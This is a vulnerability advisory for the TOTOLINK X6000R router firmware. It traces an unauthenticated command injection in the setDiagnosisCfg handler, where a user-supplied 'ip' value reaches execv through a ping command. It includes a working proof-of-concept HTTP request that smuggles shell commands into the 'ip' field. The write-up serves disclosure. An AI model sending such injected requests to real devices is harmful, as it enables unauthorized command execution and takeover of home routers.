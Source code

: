 

### **Overview**：
Affected Device：totolink X6000R

Affected Firmware Version：V9.4.0cu.852_20230719

Vulnerability: Command Injection, allowing arbitrary command execution 

Firmware Download Link：<https://www.totolink.tw/support_view/X6000R>


![](Pasted%20image%2020240118163821.png)

### **Vulnerability**：

The vulnerability is located in the function `sub_415774` within `shttpd`, with the function alias `setDiagnosisCfg`. This command can be executed without authorization.
![[Pasted image 20240302155512.png]]

It calls `snprintf` to format and concatenate our `ip` param into the string `ping %s -w %d &>/var/log/pingCheck`, then passes the string to the `CsteSystem` function. 

We can find the implementation of `CsteSystem` in `libcscommon.so`.
![](execv.png)

The string we pass as `param_1` will eventually be invoked by `execv`. Controlling `param_1` can lead to arbitrary command execution.

### **POC**:

both work on real router and qemu emulation

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 55
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/5ls
37.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"ip":";id > /1.txt; ls ","topicurl":"setDiagnosisCfg"}
~~~

### **IMPACT**：

![[Pasted image 20240302155741.png]]
